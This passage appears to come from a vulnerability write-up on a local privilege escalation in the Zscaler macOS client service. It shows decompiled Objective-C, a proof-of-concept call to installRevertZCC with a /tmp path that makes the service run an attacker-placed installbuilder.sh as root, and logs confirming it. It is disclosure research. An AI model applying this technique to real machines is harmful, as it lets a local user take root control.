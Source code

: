 ```objc
    [r12 setStandardOutput:rdx];
    var_48 = rax;
    var_58 = [[rax fileHandleForReading] retain];
    var_40 = objc_alloc_init(@class(NSMutableData));
    rax = [NSDate date];
    [rax timeIntervalSince1970];
    [rax release];
    xmm0 = intrinsic_cvtsi2sd(0x0, intrinsic_cvttsd2si([r12 launch], xmm0));
    var_78 = xmm0;
    while ([var_38 isRunning] != 0x0) {
            rax = [NSDate date];
            [rax timeIntervalSince1970];
            xmm0 = xmm0 - var_78;
            if (xmm0 > *double_value_5) {
                    ZLogger::info(ZLogger::INSTANCE, "time up! to execute the command:%s", [objc_retainAutorelease(cli_arguments) UTF8String], rcx, 0x0, r9, stack[-136]);
                    [var_38 terminate];
            }
            rax = [var_58 availableData];
            rdx = rax;
            [var_40 appendData:rdx];
    }
    if ([var_40 length] != 0x0) {
            r15 = [[NSString alloc] initWithData:var_40 encoding:0x4];
    }
    else {
            r15 = @"0";
    }
    rax = [r15 autorelease];
    return rax;
}
```

By calling the `installRevertZCC` method with a path which an attacker could create the `Contents/MacOS/` subdirectory structure under, e.g. `/tmp`, then the service will execute the `installbuilder.sh` within. 

```objc
[...REDACTED FOR BREVITY..]
    BOOL * res = false;
    [obj installRevertZCC:@"/tmp" reply:^(BOOL res) {
        NSLog(@"[installRevertZCC] Response: \"%hhd\"", res);
    }];
[...REDACTED FOR BREVITY..]
```

The logs written to the `ZSAService*.log` files within the `/Library/Application Support/Zscaler` directory validated the hypothesis and LPE could be achieved. 
```bash
08:04:29-testmac@mpro:/Library/Application Support/Zscaler$ cat ZSAService*.log | rg -i --hidden install
[...REDACTED FOR BREVITY..]
INF install**RevertZCC:: path=/tmp
INF installZCC::installZCC: osx-x86_64 doesn't exist.
INF installZCC::installZCC: osx-arm64 doesn't exist.
INF installZCC::zapp updater command: /bin/sh /tmp/Contents/MacOS/installbuilder.sh  --revertzcc 1 --mode unattended --unattendedmodeui none --zinstallMode 1
[...REDACTED FOR BREVITY..]
```
